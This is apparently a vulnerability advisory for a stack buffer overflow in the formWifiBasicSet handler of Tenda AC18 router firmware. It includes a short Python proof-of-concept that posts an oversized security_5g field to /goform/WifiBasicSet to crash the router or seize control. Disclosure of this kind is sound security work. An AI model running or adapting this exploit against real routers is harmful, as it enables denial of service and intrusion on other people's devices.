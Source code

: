 Tenda AC18 Unauthorized stack overflow vulnerability

## **1. Affected version:**

Tenda ac18_kf_V15.03.05.19(6318_)_cn

## **2. Firmware download address**

<https://www.tenda.com.cn/download/detail-2683.html>

## **3. Vulnerability details**
![image](https://user-images.githubusercontent.com/65169560/212258478-ce2d24e8-e883-47de-8ca0-b6835191e520.png)

![image](https://user-images.githubusercontent.com/65169560/212258494-2402a992-6e8a-4057-be45-ec3d655a140e.png)

The function "formWifiBasicSet" contains a stack-based buffer overflow vulnerability. In the function, it reads in a user-provided parameter, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

## **4. Recurring vulnerabilities and POC**

import requests
from pwn import *

url = 'http://x.x.x.x/goform/WifiBasicSet'
pl = 'a'*564+p32(0xdeadbeef)
data = {'security_5g':pl, 'hideSsid':'1', 'ssid':'1', 'security':'1', 'wrlPwd':'1', 'hideSsid_5g':'1', 'ssid_5g':'1', 'wrlPwd_5g': '1'}

requests.post(url, data=data)

## 5. Author

Drizzling_Sun @KRlab
